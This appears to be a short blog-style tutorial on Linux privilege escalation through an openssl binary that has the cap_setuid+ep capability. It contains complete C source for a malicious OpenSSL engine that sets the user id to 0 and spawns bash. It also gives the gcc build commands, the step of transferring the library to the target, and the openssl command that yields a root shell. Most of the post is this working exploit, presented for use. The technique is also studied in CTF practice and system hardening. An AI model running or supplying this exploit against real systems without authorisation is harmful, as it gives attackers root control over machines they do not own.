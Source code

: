 ```yaml
---
title: Linux-Privilege Escalation
tags: linux privEsc
article_header:
  type: cover
published: true
author: krill
---
```


 Would be covering some linux priviledge escalation techniques from basic to advanced here.



<!--more-->

## OpenSSL cap_setuid+ep

> Run the following command to check for the set capabilities on the target machine.  
>`getcap -r / 2>/dev/null`  
>if you see `/usr/bin/openssl = cap_setuid+ep`, we can exploit this box with this method.  
>on your attack machine you need to craft an exploit code in C.  
>For this exploit to work, you need to have the libssl-dev package installed; if you don't, you can easily install it with the following code:  
>`sudo apt-get install libssl-dev`  
>>### Time to craft the exploit:
>>Create a file named `ssl-ploit.c`, or whatever you like XD. Write the following into the file. 👻
>> ```c 
>> #include <openssl/engine.h>
>>
>>static int bind(ENGINE *e, const char *id)
>>{
>>  setuid(0); setgid(0);
>>  system("/bin/bash");
>>}
>>
>>IMPLEMENT_DYNAMIC_BIND_FN(bind)
>>IMPLEMENT_DYNAMIC_CHECK_FN()
>> ```
>>
>>### Compilattion: 
>>run the following commands:  
>>```
>>1. gcc -fPIC -o ssl-ploit.o -c ssl-ploit.c  
>>2. gcc -shared -o ssl-ploit.so -lcrypt ssl-ploit.o  
>>```
>> finally; the exploit is complete 💥. You should get a `'<whatever_name_you_saved_your_exploit_as>'.so` file. in my case, `ssl-ploit.so` . 
>> 
>>### Exploitation:
>>Now you've got just one more thing to do, you need to transfer the `ssl-ploit.so` file to the target machine. (you can send it to `/dev/shm` or your home directory using `python-simple-webserver` or `scp`)   
>>Then run the exploit :)
>>```javascript
>>
>>user@server$ openssl eng -engine ./ssl-ploit.so
>>root@server# whoami
>>root
>>```
>> 
>> FInally Root 📸; Thanks for reading. _Sayonara~🍻_






